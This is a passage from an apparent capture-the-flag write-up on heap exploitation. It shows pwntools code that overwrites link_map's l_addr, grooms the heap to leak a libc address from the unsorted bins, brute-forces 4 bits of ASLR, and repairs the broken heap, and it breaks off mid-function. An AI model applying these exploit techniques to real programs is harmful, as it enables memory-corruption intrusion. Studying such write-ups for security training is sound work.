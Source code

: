 ```python
relative_write(0x2c, link_map + link_map_offsets["l_addr"] + 1)
```

#### Heap feng shui

Now that we can loop back to main after exit, we need to find an address to leak.
The official `solve.py` script uses the following function : 

```python
def heap_feng_shui():

  for i in range(16):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"128")
    p.recvuntil(b">")
    p.sendline(str(128+i).encode())
    p.recvuntil(b">")
    p.sendline(b"32")
    p.recvuntil(b">")
    p.sendline(b"2")

```

Basically, we allocate a chunk of size 0x80, then we `free` it so it goes into the unsorted bins, meaning it will contain a `libc` address.
Afterwards, we allocate another chunk of size 0x80 that will be above the other one. Using our relative write, we write printable chars between this chunk and the one in unsorted bins. 
It will break the heap but it will work.

We can spin the roulette and, if we guessed the 4 bits of ASLR right, we will loop back to main.

### Cleaning the heap

We are back in `main`, but the heap is broken.
We need to clean it first.

```python
def heap_cleaning():

  for i in range(8):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"200")
    p.recvuntil(b">")
    p.sendline(str(2592+i).encode())
    p.recvuntil(b">")
    p.sendline(b"0")
    p.recvuntil(b">")
    p.sendline(b"2")

    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"200")
    p.recvuntil(b">")
    p.sendline(str(2592+8).encode())
    p.recvuntil(b">")
    p.sendline(b"113") # 0x71
    p.recvuntil(b">")
    p.sendline(b"2")

  for i in range(7):
    p.recvuntil(b">")
```